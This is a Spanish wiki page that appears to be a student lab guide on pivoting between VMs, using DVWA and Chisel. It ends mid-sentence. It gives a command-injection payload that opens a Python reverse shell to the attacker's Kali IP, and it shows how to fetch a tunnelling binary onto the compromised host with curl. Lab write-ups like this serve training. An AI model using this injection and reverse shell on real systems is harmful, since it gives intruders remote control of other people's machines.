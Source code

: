 ```yaml
---
title: Practica de pivotaje
description: En está pagina vamos a explicar como se hizo el pivotaje
published: true
date: 2024-12-11T17:47:05.082Z
tags: 
editor: markdown
dateCreated: 2024-12-11T17:47:05.082Z
---
```


# Práctica pivotaje
Bienvenido a la práctica de la máquina del pivotaje.
## Explicación
La práctica que vamos consiste en un pivotaje entre maquinas vulneradas.

### Requisitos
Debemos tener tres maquinas virtuales:
1. Máquina Kali o máquina Hacker, desde donde querremos infiltrarnos.
2. Servidor 1: Servidor DVWA en un Ubuntu Server.
3. Servidor 2: Servidor Devion7 en un Oracle.

Además deberemos tener dos redes NATs:
1. Red Kali - Dvwa
2. Red Dvwa - Devion7

### Configuración de DVWA
>  Partimos con que ya se ha instalado las máquinas necesarias y se han establecidos los requisitos correctamente.
{.is-info}

Dentro de la máquina DVWA, deberemos acudir a la ruta "**/etc/apach2/ports.conf**", aquí deberemos escribir:
`Listen 127.0.0.1:8000`

Tras esto acudiremos a la ruta "**/etc/apache2/sites-available**" y crearemos la carpeta "001-router.conf"
```bash
mkdir 001-internal.conf
```

Dentro de esta carpeta deberemos escribir lo siguiente:
```
<VirtualHost 127.0.0.1:8000>
	ServerName internal.cyberlab.local
  DocumentRoot /var/www/internal
 </VirtualHost>
```

Tras hecho esto, podremos hacer el comando:
```
sudo a2ensite 001-internal.conf
```

Y después deberemos hacer un:
```console
systemctl reload apache2
```

Con esto habremos creado un servicio en el puerto 8000, y será visible siempre y cuando hagamos una lectura en locahost:8000, esto lo usaremos más adelante para comprobar efectivamente que se ha hecho correctamente el pivotaje.

Haremos solo haremos una carpeta en la ruta indicada:
```console
vim /var/www/internal/index.html
```

Aquí pondremos lo que querramos para verificar que se ha hecho el pivotaje, un buen ejemplo puede ser:
"<h1 HOLAAA /h1>"
> Recuerda poner correctamente el <>.
{.is-warning}

## Ejecución
### Control de DVWA
Lo primero que haremos será establecer un puerto de escucha en Kali, para ello haremos un: 
```console
nc -lvnp (Puerto)
```
Tras esto, como Kali, deberemos acudir al apartado de DVWA:Command Injection. Aquí deberemos escribir lo siguiente:
```console
127.0.0.1;export RHOST="(IP de KALI)";export RPORT=(PUERTO DE KALI);nohup python3 -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("bash")' &
```

Esto lo hemos sacado de las siguiente URL: https://www.revshells.com
> En caso de error, comprueba que la dificultad está en low, el host y el puerto.
{.is-info}

Tras esto habremos hecho una shell reversa la cual tenemos total acceso y control. Ahora vamos a intentar crear un tunnel de comunicación entre la Kali y el DVWA, para ello vamos a usar Chisel. Lo primero que haremos será descargarnos el software en: https://github.com/jpillora/chisel/releases

Y nos descargaremos aquel fichero que ponga Linux_amd64.gz

Una vez descargado, lo descomprimimos y lo haremos un ejecutable. Eso lo haremos con los siguientes comandos:
```console
gzip -d chisel_1.10.1_linux_amd64.gz
mv chisel_1.10.1_linux_amd64 chisel
chmod +x chisel
```

Este archivo lo deberemos subir a la máquina de DVWA, para ello deberemos crear un servicio web en Kali con el siguiente comando:
```console
python3 -m http.server
```
> Importante ejecutar este comando en la misma cartepa donde esta el chisel descargado.
{.is-info}

Y ahora en la máquina de DVWA, vamos a poner:
```console
curl http://(maquinaKali)/chisel -o chisel
```

Si hacemos esto de forma correcta, la máquina DVWA habrá descargado el fichero, podemos comprobarlo con un ls.

Perfecto, ahora vamos a modificar el Socks5. Esto es para poder establecer una conexión muchisimo mas comoda entre Kali y DVWA, para ello vamos a tener que modificar lo siguiente:
```console
nano /etc/proxychains4.conf
```
Deberemos fijarnos que en la primera zonas de texto, esté presente **strict_chain** y después al final deberemos comentar la linea **socks4 127.0.0.1 9050**, y escribiremos en su lugar **socks5 127.0.0.1 1080**.
![image.png](/image.png)

Luego en la herramienta de 
